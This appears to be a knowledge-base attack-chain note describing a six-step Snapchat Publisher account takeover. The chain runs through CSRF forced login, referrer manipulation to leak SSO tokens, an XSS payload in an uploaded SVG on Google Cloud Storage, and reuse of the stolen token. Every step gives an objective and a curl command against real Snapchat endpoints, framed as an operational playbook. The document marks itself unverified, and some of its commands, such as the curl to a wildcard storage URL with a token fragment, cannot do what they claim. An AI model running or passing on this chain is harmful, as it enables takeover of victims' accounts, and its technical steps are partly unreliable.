

---
tags:
  - csrf
  - xss
  - sso
  - token-theft
  - account-takeover
  - svg-upload
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-sso-request]]'
  - '[[commands/curl-upload-svg]]'
  - '[[commands/curl-access-with-token]]'
platforms:
  - Web
  - GCP
complexity: medium
procedures:
  - '[[procedures/Exploit-CSRF-in-SSO-Login]]'
  - '[[procedures/Manipulate-Referrer-for-Token-Redirection]]'
  - '[[procedures/Upload-Malicious-SVG-for-XSS]]'
  - '[[procedures/Redirect-to-Malicious-SVG]]'
  - '[[procedures/Steal-SSO-Token-via-XSS]]'
  - '[[procedures/Use-Stolen-Token-for-Account-Access]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Valid Accounts]]'
description: >-
  Multi-stage attack exploiting CSRF in SSO, improper referrer validation,
  reusable tokens, and XSS via SVG uploads to steal SSO tokens and gain
  unauthorized access to Snapchat Publisher accounts.
skill_level: intermediate
impact_level: high
id: ecf91ab4-1c80-4ec4-84bf-c04fbc1d5dff
created_at: '2025-12-13T09:01:26.675Z'
updated_at: '2025-12-13T09:01:26.675Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Valid Accounts]]'
---
# Chained CSRF, Improper Validation, Reusable Tokens, and XSS for Snapchat Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in Snapchat's SSO system and Google Cloud Storage to achieve unauthorized account access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Curl]]

### Target Environment

- Web platform with Snapchat services
- Google Cloud Storage for uploads
- Required services: accounts.snapchat.com, snappublisher.snapchat.com

### Initial Access Requirements

- Victim logged into accounts.snapchat.com
- Attacker-controlled Snapchat account
- Network access to Snapchat endpoints

## Detailed Attack Procedures

### Step 1: Force Login via CSRF
procedure: [[procedures/Exploit-CSRF-in-SSO-Login]]

**Objective**: Force the victim to log into the attacker's Snapchat Publisher account without interaction.

**Instructions**: Exploit the CSRF vulnerability by crafting a request that logs the victim into the attacker's account. Use [[commands/curl-sso-request]] to simulate the CSRF payload delivery:

```bash
curl -X POST 'https://snappublisher.snapchat.com/sso_continue' --data 'ticket=<attacker_token>' -H 'Referer: https://accounts.snapchat.com'
```

**Expected Output**: Victim is silently logged into the attacker's account.

**Success Indicators**:
- Login confirmation in browser session
- No user interaction required

### Step 2: Manipulate Referrer for Token Fetch
procedure: [[procedures/Manipulate-Referrer-for-Token-Redirection]]

**Objective**: Fetch the SSO token by manipulating the referrer parameter to include a hash fragment.

**Instructions**: Make a request to the SSO endpoint with a crafted referrer. Use [[commands/curl-sso-request]] to fetch the token:

```bash
curl 'https://accounts.snapchat.com/accounts/sso?client_id=creativesuite-prod&referrer=https://snappublisher.snapchat.com/api/v1/media/█████████/file/somthine.svg?%23pranav'
```

**Expected Output**: Redirect with token in hash fragment.

**Success Indicators**:
- Token appears in URL hash
- Redirect to specified URL

### Step 3: Upload Malicious SVG
procedure: [[procedures/Upload-Malicious-SVG-for-XSS]]

**Objective**: Upload an SVG file containing JavaScript to execute XSS on Google Cloud Storage.

**Instructions**: Upload the malicious SVG via the Snapchat Publisher endpoint. Use [[commands/curl-upload-svg]] for the upload:

```bash
curl -X POST 'https://snappublisher.snapchat.com/snaps/create/new' -F 'file=@malicious.svg' -H 'Content-Type: multipart/form-data'
```

**Expected Output**: SVG hosted on storage.googleapis.com.

**Success Indicators**:
- Successful upload confirmation
- SVG accessible via URL

### Step 4: Redirect to Storage with Token
procedure: [[procedures/Redirect-to-Malicious-SVG]]

**Objective**: Trigger a redirect carrying the SSO token in the hash fragment to the malicious SVG.

**Instructions**: Initiate the redirect from the manipulated referrer. Use [[commands/curl-sso-request]] to test the redirect chain:

```bash
curl -L 'https://snappublisher.snapchat.com/api/v1/media/████/file/somthine.svg?%23pranav'
```

**Expected Output**: 307 redirect to GCS with token in hash.

**Success Indicators**:
- Redirect status code 307
- Token preserved in URL hash

### Step 5: Execute XSS to Steal Token
procedure: [[procedures/Steal-SSO-Token-via-XSS]]

**Objective**: Use JavaScript in the SVG to extract the token from the hash fragment.

**Instructions**: The SVG executes automatically upon load. Simulate access with [[commands/curl-access-with-token]] to verify:

```bash
curl 'https://storage.googleapis.com/creativesuite-prod-media/*#<token>'
```

**Expected Output**: JavaScript logs or alerts the token.

**Success Indicators**:
- Token captured in console or exfiltrated
- XSS execution confirmed

### Step 6: Access Account with Stolen Token
procedure: [[procedures/Use-Stolen-Token-for-Account-Access]]

**Objective**: Use the stolen token to log into the victim's account.

**Instructions**: Access the SSO continue endpoint with the token. Use [[commands/curl-access-with-token]]:

```bash
curl 'https://snappublisher.snapchat.com/sso_continue?ticket=<stolen_token>'
```

**Expected Output**: Successful login to victim's account.

**Success Indicators**:
- Unauthorized access granted
- Ability to make API requests on behalf of victim

## Attack Chain Summary

### Key Achievements

1. Forced login via CSRF
2. Token theft through XSS and redirects
3. Unauthorized account control

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[Valid Accounts]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: 2023-10-01*
